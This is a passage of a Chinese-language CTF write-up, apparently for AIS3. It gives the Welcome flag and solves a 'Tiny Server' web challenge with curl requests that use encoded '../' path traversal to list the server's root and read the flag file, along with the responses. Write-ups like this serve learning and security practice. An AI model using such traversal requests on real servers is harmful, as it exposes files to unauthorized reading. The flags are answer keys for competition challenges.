 接著就可以到 [發票查詢](https://www.einvoice.nat.gov.tw/portal/btc/audit/btc601w/search) 找到這張發票的資訊了

## Welcome

> flag: `AIS3{Welcome_And_Enjoy_The_CTF_!}`

~~可惡阿 `dkri3c1` 打字比我快 4 秒，不然我就首殺 Welcome 了~~  
沒什麼技巧，純靠打字 (AIS3 專題可以研究怎麼讓參賽者不能複製嗎...)

## AIS3 Tiny Server - Web / Misc

> flag: `AIS3{tInY_We8_s3RV3R_W17H_FIL3_BR0Ws1n9_@5_@_Fe@tuRe}`

我是先非預期解 Tomorin DB 才看這題的  
結果用同一個方法也能解  
我首先試了:

```bash
❯ curl http://chals1.ais3.org:20457/%2e%2e/
<html><head><style>body{font-family: monospace; font-size: 13px;}td {padding: 1.5px 6px;}</style></head><body><table>
<tr><td><a href="html/">html/</a></td><td>2025-05-24 05:49</td><td>[DIR]</td></tr>
</table></body></html>%                                                                                                 
```

結果這個結果可以說是意想不到，代表八成有受到這個漏洞的影響  
在多加了幾個 `../../` 之後成功看到 flag 的位置:

```bash
❯ curl http://chals1.ais3.org:20457/%2e%2e/%2e%2e/%2e%2e/
<html><head><style>body{font-family: monospace; font-size: 13px;}td {padding: 1.5px 6px;}</style></head><body><table>
<tr><td><a href="lib32/">lib32/</a></td><td>2025-05-21 15:12</td><td>[DIR]</td></tr>
<tr><td><a href="tmp/">tmp/</a></td><td>2025-05-21 15:12</td><td>[DIR]</td></tr>
<tr><td><a href="libx32/">libx32/</a></td><td>2025-05-21 15:12</td><td>[DIR]</td></tr>
...
<tr><td><a href="boot/">boot/</a></td><td>2022-04-18 10:28</td><td>[DIR]</td></tr>
<tr><td><a href="readable_flag_YdVUQHstgu7KYLIJjfVN9Fz9LccwF5Fp">readable_flag_YdVUQHstgu7KYLIJjfVN9Fz9LccwF5Fp</a></td><td>2025-06-02 11:42</td><td>54</td></tr>
<tr><td><a href=".dockerenv">.dockerenv</a></td><td>2025-06-02 11:42</td><td>0</td></tr>
<tr><td><a href="readflag">readflag</a></td><td>2025-05-22 16:22</td><td>884.1K</td></tr>
</table></body></html>%                                                                                                 
```

這樣就可以直接去讀 flag 了

```bash
❯ curl http://chals1.ais3.org:20457/%2e%2e/%2e%2e/%2e%2e/readable_flag_YdVUQHstgu7KYLIJjfVN9Fz9LccwF5Fp
AIS3{tInY_We8_s3RV3R_W17H_FIL3_BR0Ws1n9_@5_@_Fe@tuRe}
```

# crypto
